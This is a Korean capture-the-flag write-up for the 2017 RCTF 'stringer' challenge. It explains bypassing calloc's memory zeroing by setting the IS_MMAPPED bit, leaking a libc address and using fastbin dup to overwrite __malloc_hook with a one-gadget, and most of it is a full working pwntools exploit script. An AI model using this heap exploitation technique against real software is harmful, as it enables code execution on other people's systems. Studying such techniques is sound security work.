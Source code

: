 ```yaml
---
title: "2017 RCTF stringer"
date: 2020-7-6
ctf: RCTF
layout: post
---
```


* calloc trick

show 메뉴가 존재했지만 기능은 없었다. 하지만 new할 때 넣은 content를 출력해준다. 하지만 할당할 때 calloc을 사용해서 할당한다는 점이다. calloc을 사용하게 되면 메모리 영역이 다 초기화 된다는 점이다.

 unsorted bin을 만들고 edit을 이용해서 다음청크의 사이즈 1을 증가시킬 수 있어서 IS_MMAPED를 set해주면 메모리를 초기화 하지 않는다는 점이다. calloc.c 코드에서 볼 수있다.

```c
if (chunk_is_mmapped (p))
  {
    if (__builtin_expect (perturb_byte, 0))
      return memset (mem, 0, sz);

    return mem;
  }
```

 그래서 이를 이용해서 같은 크기로 재할당해서 main_arena+88 주소를 leak할 수 있다. 이후에는 fastbin dup해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./stringer')
p = process('./stringer')
libc = e.libc
chunk = 0x0000000000202040

def new(size,content):
	p.sendlineafter(':','1')
	p.sendlineafter(':',str(size))
	p.sendlineafter(':',content)

def edit(idx,idx2):
	p.sendlineafter(':','3')
	p.sendlineafter(':',str(idx))
	p.sendlineafter(':',str(idx2))

def delete(idx):
	p.sendlineafter(':','4')
	p.sendlineafter(':',str(idx))

new(24,'A'*8) # 0 
new(0x100,'B'*8) # 1
new(0x100,'C'*8) # 2
delete(1)
edit(0,24) # set is_mmap
new(0x100,'B'*7) # 1 leak

libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - (0x3c4b20 + 88)
log.info('libc_base : {}'.format(hex(libc_base)))
malloc = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc)))
oneshot = libc_base + 0xf02a4
log.info('oneshot : {}'.format(hex(oneshot)))

new(0x60,'a') # 3
new(0x60,'a') # 4
new(0x60,'a') # 5

delete(4)
delete(5)
delete(4)

new(0x60,p64(malloc-0x23))
new(0x60,'b')
new(0x60,'b')
new(0x60,'A'*19+p64(oneshot))

new(0x60,'finish')

p.interactive()
```

# Reference

https://0xpwny.com/2019/03/14/bypass-calloc-zeroing-memory/

https://github.com/str8outtaheap/heapwn/blob/master/malloc/__libc_calloc.c#L89

https://github.com/andigena/ptmalloc-fanzine/tree/master/03-scraps

